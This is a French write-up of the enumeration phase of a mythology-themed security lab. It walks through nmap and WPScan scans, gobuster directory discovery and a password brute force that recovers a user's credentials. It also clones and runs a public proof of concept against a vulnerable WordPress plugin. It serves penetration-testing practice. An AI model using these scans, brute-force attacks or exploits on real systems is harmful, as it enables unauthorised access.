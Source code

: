 # Énumération

## 🔍 Phase 1 : Reconnaissance Initiale

### Énumération Réseau

Commençons par découvrir les machines présentes sur le réseau cible.

```bash
# Scan de découverte du réseau
nmap -sn 192.168.56.1/24

# Résultat
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-06 23:27 CEST
Nmap scan report for 192.168.56.10
Host is up (0.00014s latency).
MAC Address: 08:00:27:58:FA:50 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.11
Host is up (0.00011s latency).
MAC Address: 08:00:27:BE:5F:A9 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.12
Host is up (0.00018s latency).
MAC Address: 08:00:27:95:2A:F9 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up (0.000040s latency).
MAC Address: 08:00:27:30:D7:D4 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.1
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 12.95 seconds
```

!!! success "Découverte"
    Trois machines sont visible sur le réseau :  
    - **192.168.56.10**  
    - **192.168.56.11**
    - **192.168.56.12**

### Scan Complet de la Machine en .10

```bash
# Scan complet avec détection de services
nmap -sC -sV -p- 192.168.56.10

# Résultat
Nmap scan report for pantheon.god (192.168.56.10)
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 6.8.1
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Pantheon
```

!!! info "Services Découverts"
    - **Port 22** : SSH (OpenSSH 7.6p1)
    - **Port 80** : HTTP (Apache 2.4.29 + WordPress 6.8.1)

## 🌐 Énumération Web

### Accès au Site Web

En accédant au port 80, nous sommes redirigés vers `pantheon.god`. Le site utilise WordPress 6.8.1.

### Énumération WordPress avec WPScan

```bash
# Scan agressif des plugins
wpscan --url "http://192.168.56.10/" --plugins-detection aggressive
```
<details>
<summary><strong>📋 Voir le scan WPScan complet</strong></summary>

```bash
wpscan --url "http://pantheon.god/" --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://pantheon.god/ [192.168.56.10]
[+] Started: Tue May 27 02:01:37 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://pantheon.god/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://pantheon.god/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pantheon.god/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://pantheon.god/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pantheon.god/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.8.1 identified (Latest, released on 2025-04-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://pantheon.god/feed/, <generator>https://wordpress.org/?v=6.8.1</generator>
 |  - http://pantheon.god/comments/feed/, <generator>https://wordpress.org/?v=6.8.1</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://pantheon.god/wp-content/themes/twentytwentyfive/
 | Latest Version: 1.2 (up to date)
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://pantheon.god/wp-content/themes/twentytwentyfive/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://pantheon.god/wp-content/themes/twentytwentyfive/style.css?ver=1.2
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pantheon.god/wp-content/themes/twentytwentyfive/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:04:30 <=======================================
 Checking Known Locations - Time: 00:22:44 <========================> (110793 / 110793) 100.00% Time: 00:22:44
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://pantheon.god/wp-content/plugins/akismet/
 | Latest Version: 5.4
 | Last Updated: 2025-05-07T16:30:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] cmp-coming-soon-maintenance
 | Location: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/
 | Last Updated: 2025-04-30T08:07:00.000Z
 | Readme: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
 | [!] The version is out of date, the latest version is 4.1.15
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/, status: 200
 |
 | Version: 4.1.13 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt

[+] feed
 | Location: http://pantheon.god/wp-content/plugins/feed/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/feed/, status: 200
 |
 | The version could not be determined.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <===============================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 27 02:24:34 2025
[+] Requests Done: 110950
[+] Cached Requests: 44
[+] Data Sent: 29.306 MB
[+] Data Received: 33.036 MB
[+] Memory used: 594.039 MB
[+] Elapsed time: 00:22:56
```

</details>

#### Résultats Importants

!!! warning "Vulnérabilités Découvertes"
    - **Plugin CMP Coming Soon** : Version 4.1.13 (obsolète, dernière version 4.1.15)
    - **Directory listing** activé sur `/wp-content/uploads/`
    - **XML-RPC** activé
    - **WP-Cron** activé

#### Détails du Plugin Vulnérable

```bash
[+] cmp-coming-soon-maintenance
 | Location: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/
 | Last Updated: 2025-04-30T08:07:00.000Z
 | Readme: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
 | [!] The version is out of date, the latest version is 4.1.15
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/, status: 200
 |
 | Version: 4.1.13 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
```

### Énumération de Répertoires

```bash
# Énumération des répertoires avec gobuster
gobuster dir -w /opt/lists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -u http://olympe.god/wp-content \
  -x txt,html,php
```

#### Découverte Critique

!!! success "Fichier Important Trouvé"
    ```
    /notes.txt            (Status: 200) [Size: 391]
    ```

### Analyse du Fichier Notes.txt

```bash
# Contenu du fichier notes.txt
curl http://olympe.god/wp-content/notes.txt
```

!!! tip "Indice Important"
    Le fichier contient une note indiquant que tous les dieux devaient changer leurs mots de passe et mettre un `y`, mais seul Hermès ne l'a pas fait.

## 🔐 Recherche de Credentials

### Brute Force sur WordPress

Basé sur l'indice trouvé, nous tentons un brute force sur l'utilisateur `hermes` :

```bash
# Brute force avec rockyou.txt
wpscan --url http://192.168.56.10 \
  --usernames hermes \
  --passwords /usr/share/wordlists/rockyou.txt
```

!!! success "Credentials Trouvés"
    - **Utilisateur** : hermes
    - **Mot de passe** : ilovegod

## 🎯 Analyse de la Vulnérabilité CMP Coming Soon

### Recherche de POC

La version 4.1.13 du plugin CMP Coming Soon est vulnérable. Nous trouvons un POC sur GitHub :

```bash
# Téléchargement du POC
git clone https://github.com/Nxploited/CVE-2025-32118
cd CVE-2025-32118
```

### Vérification de la Vulnérabilité

```bash
# Test du POC
python3 CVE-2025-32118.py -u http://olympe.god/wordpress -un hermes -p ilovegod
```

!!! warning "Vulnérabilité Confirmée"
    Le plugin permet un bypass d'authentification et l'upload de fichiers malveillants.

## 📊 Résumé de l'Énumération

### Points d'Entrée Identifiés

| Service | Vulnérabilité | Vecteur d'Attaque |
|---------|---------------|-------------------|
| **WordPress** | Plugin CMP Coming Soon 4.1.13 | Authentification bypass |
| **SSH** | Credentials faibles | Brute force possible |
| **Apache** | Directory listing | Information disclosure |

### Credentials Découverts

| Utilisateur | Mot de Passe | Source |
|-------------|--------------|--------|
| **hermes** | ilovegod | Brute force WordPress |

### Fichiers Sensibles

- `/wp-content/notes.txt` : Indices sur les credentials
- `/wp-content/uploads/` : Directory listing activé
- `/wp-content/plugins/cmp-coming-soon-maintenance/` : Plugin vulnérable

## 🎭 Contexte Mythologique

### Hermès - Le Messager Vulnérable

Dans la mythologie grecque, Hermès est le messager des dieux, rapide et rusé. Dans notre lab :

- **Vulnérabilité** : Credentials faibles (hermes:y → hermes:ilovegod)
- **Rôle** : Point d'entrée vers l'Olympe numérique
- **Scénario** : Intercepter les messages divins pour accéder au royaume

### Indices Thématiques

Le fichier `notes.txt` fait référence à un décret de Zeus demandant aux dieux de changer leurs mots de passe, créant un contexte narratif cohérent avec la thématique mythologique.

## 🚀 Prochaines Étapes

Avec ces informations, nous pouvons maintenant :

1. **Exploiter la vulnérabilité CMP Coming Soon**
2. **Obtenir un shell sur la machine**
3. **Élever nos privilèges vers l'utilisateur hermes**
4. **Explorer l'environnement pour d'autres vecteurs**

---

*L'énumération révèle les premières failles dans la défense de l'Olympe. Hermès, le messager divin, a laissé ses secrets exposés...* ⚡ 
